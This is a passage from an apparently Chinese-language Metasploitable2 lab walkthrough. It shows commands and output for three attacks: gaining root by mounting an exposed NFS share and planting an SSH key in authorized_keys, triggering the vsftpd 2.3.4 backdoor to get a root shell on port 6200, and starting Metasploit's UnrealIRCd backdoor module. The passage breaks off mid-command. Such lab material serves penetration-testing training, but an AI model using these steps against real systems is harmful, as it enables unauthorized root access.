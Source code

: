 root@ubuntu:~# **mkdir /tmp/r00t**

root@ubuntu:~# **mount -t nfs 192.168.99.131:/ /tmp/r00t/**

root@ubuntu:~# **cat ~/.ssh/id_rsa.pub >> /tmp/r00t/root/.ssh/authorized_keys** 

root@ubuntu:~# **umount /tmp/r00t** 

 

root@ubuntu:~# **ssh root@192.168.99.131**

Last login: Fri Jun 1 00:29:33 2012 from 192.168.99.128

Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

**服务：后门**

Metasploitable2 在21端口上运行着vsftpd服务，一个使用广泛的FTP服务。这个特别的版本包含一个后门允许一个未知的入侵者进入核心代码。这个后门很快就被确认并且移除。但是移除之前已经被少数人下载下来。如果在发送的用户名后面加上”：）“（笑脸符号），这个版本的后门会在6200端口上打开一个监听的shell。我们可以通过telnet确认或者通过metasploit上面的攻击模块自动攻击。

root@ubuntu:~# **telnet 192.168.99.131 21**

Trying 192.168.99.131…

Connected to 192.168.99.131.

Escape character is &#039;^]&#039;.

220 (vsFTPd 2.3.4)

**user backdoored:)**

331 Please specify the password.

**pass invalid**

**^]**

telnet> **quit**

Connection closed.

root@ubuntu:~# **telnet 192.168.99.131 6200**

Trying 192.168.99.131…

Connected to 192.168.99.131.

Escape character is &#039;^]&#039;.

**id;**

uid=0(root) gid=0(root)

在Metasploitable2 的6667端口上运行着UnreaIRCD IRC的守护进程。这个版本包含一个后门-运行了几个月都没被注意到。通过在一个系统命令后面添加两个字母”AB“发送给被攻击服务器任意一个监听该端口来触发。metasploit上已经已经有攻击模块来获得一个交互的shell，请看下面列子。

msfconsole

msf > **use exploit/unix/irc/unreal_ircd_3281_backdoor**

msf exploit(unreal_ircd_3281_backdoor) > **set RHOST 192.168.99.131**
